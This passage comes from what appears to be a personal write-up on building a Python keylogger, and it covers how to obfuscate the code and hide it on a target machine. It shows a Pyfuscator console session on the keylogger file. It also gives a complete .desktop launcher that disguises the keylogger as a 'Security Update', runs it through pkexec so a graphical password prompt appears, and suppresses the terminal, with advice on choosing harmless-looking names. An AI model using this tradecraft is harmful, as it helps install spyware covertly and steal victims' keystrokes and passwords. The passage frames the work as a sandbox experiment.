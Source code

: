 An alternative method for code obfuscation that I tried was through existing obfuscation programs such as [Pyfuscator](https://github.com/malwarekid/Pyfuscator). After installation, the workflow is very much straightforward, as can be seen in the console below
```console
$ python3 Pyfuscator.py
print(banner)

    ____        ____                      __            
   / __ \__  __/ __/_  ________________ _/ /_____  _____
  / /_/ / / / / /_/ / / / ___/ ___/ __ `/ __/ __ \/ ___/
 / ____/ /_/ / __/ /_/ (__  ) /__/ /_/ / /_/ /_/ / /    
/_/    \__, /_/  \__,_/____/\___/\__,_/\__/\____/_/     
      /____/                                            
                                        By @malwarekid  

Welcome to Pyfuscator!
Enter your python code to obfuscate (leave empty for program path): 
Enter your python program path: /home/projects/keylogger/keylogger.py
Enter your obfuscated program name (default obfuscate.py): 
Obfuscated program has been saved as obfuscate.py
```
If you are interested, check out how exactly Pyfuscator actually obfuscates your code. Since the output contains clear patterns, I suppose it would not be too hard to actually reverse-engineer such a file.

### 3.2 Obfuscation on the Target

The second obvious question that arises when obfuscating the binary is how we should hide the program on the victim's machine, or at least how we should modify it to look like a harmless program. 

Suppose we found a way to save the keylogger python code to a victim's machine (in my case my Kali Linux sandbox). As a first step, I did not name it `keylogger.py` but rather I saved in `/tmp` simply as `security-update`. Next, I created a `.desktop` file for an easier user experience, i.e. my goal was that the victim would only need to double click the icon on the desktop to start the logger, instead of having to do anything in the command line, which is always scary to non-technical users.

I created `security-update.desktop` in `~/Desktop`:
```console
┌──(kali㉿kali)-[~/Desktop]
└─$ cat security-update.desktop 
[Desktop Entry]
Version=1.0
Type=Application
Name=Security Update
Exec=pkexec python3 /home/kali/security-update
Icon=utilities-terminal
Terminal=false
StartupNotify=true
```
The first three lines are standard. `Name` is how the application will be viewed on the desktop by the victim. `Exec` is the interesting part: it tells the machine to actually run the keylogger. The important bit is that we use `pkexec` here, and not `sudo`, because the vitim might not have sudo privileges to run `python3`. Better yet, by using `pkexec`, the victim is graphically promted to enter their user password when double-clicking the icon in a new window and no terminal ever shows up due to the `Terminal=false` parameter. All in all, executing the code in this way should therefore not seem too suspicious to a potential target. In the password prompt, however, the `Exec` command is displayed in plain text, so it's good practice to really save the logger as something harmless, and not as, say, `password-stealer-hack-x49338-malicious.py`.
